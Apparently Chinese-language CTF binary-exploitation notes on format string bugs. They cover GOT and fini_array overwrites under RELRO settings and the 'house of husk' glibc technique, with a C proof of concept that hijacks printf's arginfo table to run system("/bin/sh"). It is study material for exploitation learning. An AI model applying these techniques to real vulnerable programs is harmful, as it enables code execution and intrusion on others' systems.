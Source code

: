 # 格式化字符串漏洞

## NULL RELRO防护模式

### 含有后门函数

1. 修改printf_got为后门函数，修改fini_array到main，程序在exit时会返回到main
2. printf("/bin/sh")即可触发漏洞

### 不含有后门函数

1. 泄露栈地址和libc地址，修改fini_array到main
2. 修改返回地址到one_gadget

## 开启RELRO防护模式

泄露栈，libc和elf地址，栈中爆破未初始化栈空间，使得有一个指向ret的栈地址后修改为main重新指向printf写入ROP

## house of husk

### 有效版本

`glibc 2.23 ~ 2.35`

### 原理

`printf`函数直接调用的`__vfprintf_internal`
`__vfprintf_internal`函数在处理带`$`的格式化字符串时会调用`printf_positional`来处理, 当`__printf_function_table != NULL || __printf_modifier_table != NULL || __printf_va_arg_table != NULL`时也会调用`printf_positional`
`printf_positional`会调用`__parse_one_specmb`来解析
`__parse_one_specmb`有如下代码:

```C
if (__builtin_expect(__printf_function_table == NULL, 1) ||
    spec->info.spec > UCHAR_MAX ||
    __printf_arginfo_table[spec->info.spec] == NULL ||
    (int)(spec->ndata_args = (*__printf_arginfo_table[spec->info.spec])(&spec->info, 1, &spec->data_arg_type, &spec->size)) < 0)
```

### 利用思路

1. 修改`printf_function_table`使其不为0
2. 修改`printf_arginfo_table`指向一个伪造的函数列表，并且`printf_arginfo_table['c'] = backdoor`
3. `printf("%c");`即可触发漏洞

### 示例

```C
#include <stdio.h>
#include <stdlib.h>

void backdoor()
{
    system("/bin/sh");
}

int main()
{
    /* 获取地址 */
    size_t libc_base = &system - 0x50d70;
    // p/x &__printf_function_table
    size_t *printf_function_table = libc_base + 0x21c9c8;
    // p/x &__printf_arginfo_table
    size_t *printf_arginfo_table = libc_base + 0x21b8b0;

    // 伪造函数列表
    size_t *fun;
    fun = malloc(0x100);
    fun['d'] = (size_t)backdoor;
    // 触发漏洞条件
    *printf_function_table = 1;
    *printf_arginfo_table = (size_t)fun;

    // attack
    printf("%d", 0x123456);
    return 0;
}
```
